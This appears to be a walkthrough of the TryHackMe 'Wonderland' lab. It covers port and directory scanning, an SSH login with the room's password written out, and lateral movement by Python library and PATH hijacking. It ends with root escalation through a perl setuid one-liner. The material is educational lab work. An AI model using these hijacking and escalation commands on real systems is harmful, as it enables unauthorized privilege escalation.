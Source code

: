 # Wonderland

**Room Link:** [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (16).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (17).png" alt=""><figcaption></figcaption></figure>

I can see I'm on the right track on the browser

<figure><img src="../../.gitbook/assets/image (5) (13).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/a -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



After a few letters I was able to just guess the word it's spelling out

<figure><img src="../../.gitbook/assets/image (2) (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (12).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh alice@$VICTIM
Pass: HowDothTheLittleCrocodileImproveHisShiningTail
```

<figure><img src="../../.gitbook/assets/image (7) (12).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Library path

**Victim**

```
sudo -l
cat /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (9) (12).png" alt=""><figcaption></figcaption></figure>

Using the first command we can see the path it follows, we can see the first thing it will try is the current directory so we can make a random.py script of our own and put anything we want in it.

**Victim**

```
python3 -c 'import sys; print (sys.path)'
locate random.py
```

<figure><img src="../../.gitbook/assets/image (10) (11).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo 'import os' > random.py
echo 'os.system("/bin/bash")' >> random.py
cat random.py
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Paths

**Kali(receiving)**

```
nc -l -p 1234 > teaParty
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < teaParty
```

### Ghidra

I opened the file in Ghidra and can see that the program is running the date command which we see outputted when we run the script. But note that the date command isn't using the full path so if we add somewhere else in our path we can run our own date command instead.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I added tmp to my path

**Victim(rabbit)**

```
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I'm not the hatter

**Victim(rabbit)**

```
cd /tmp
echo '#!/bin/bash' > date
echo '/bin/bash' >> date
chmod +x date
cat date
/home/rabbit/teaParty 
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

**Victim(hatter)**

We can just follow what's under capabilities but only the last command as CAP\_SETID is already set for perl.

**Exploit:** [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

```
getcap -r / 2>/dev/null
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>















